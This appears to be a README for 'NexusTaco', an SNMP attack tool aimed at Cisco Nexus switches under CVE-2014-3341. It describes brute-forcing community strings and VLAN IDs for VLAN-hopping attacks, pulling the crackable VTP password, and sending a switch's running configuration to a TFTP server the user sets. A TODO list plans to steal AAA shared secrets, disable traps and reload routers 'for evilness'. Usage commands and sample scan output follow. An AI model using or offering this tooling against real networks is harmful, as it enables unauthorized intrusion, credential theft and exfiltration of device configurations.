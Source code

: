 snmpvlan
CVE ID: CVE-2014-3341.

Cisco Bug ID: CSCup85616.

Strings.txt Taken from https://fuzzdb.googlecode.com/svn-history/r127/trunk/wordlists-misc/wordlist-common-snmp-community-strings.txt

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family).

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:

*Finds Nexus switches specifically since they seem to reply to bogus community strings

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground)

**Files and folders

**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)

**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.

TODO:

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)

*Show logged in users

*Disable snmp traps

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).

*Use getopt …..

*Router reload over snmp just for evilness.

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100

Thanks nmap for the ip list

Finding vulnerable switches

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured

Host: x.x.x.x has VlanID 2 Configured

Host: x.x.x.x has VlanID 3 Configured

Host: x.x.x.x has VlanID 4 Configured

Host: x.x.x.x has VlanID 5 Configured

Host: x.x.x.x has VlanID 6 Configured

Host: x.x.x.x has VlanID 7 Configured

Host: x.x.x.x has VlanID 8 Configured

Host: x.x.x.x has VlanID 10 Configured

Host: x.x.x.x has VlanID 31 Configured

Host: x.x.x.x has VlanID 32 Configured

Host: x.x.x.x has VlanID 33 Configured

Host: x.x.x.x has VlanID 34 Configured

Host: x.x.x.x has VlanID 35 Configured

Host: x.x.x.x has VlanID 40 Configured

Host: x.x.x.x has VlanID 64 Configured

Host: x.x.x.x has VlanID 65 Configured

Host: x.x.x.x has VlanID 97 Configured

Host: x.x.x.x has VlanID 98 Configured

Host: x.x.x.x has VlanID 99 Configured

Host: x.x.x.x has VlanID 100 Configured

.....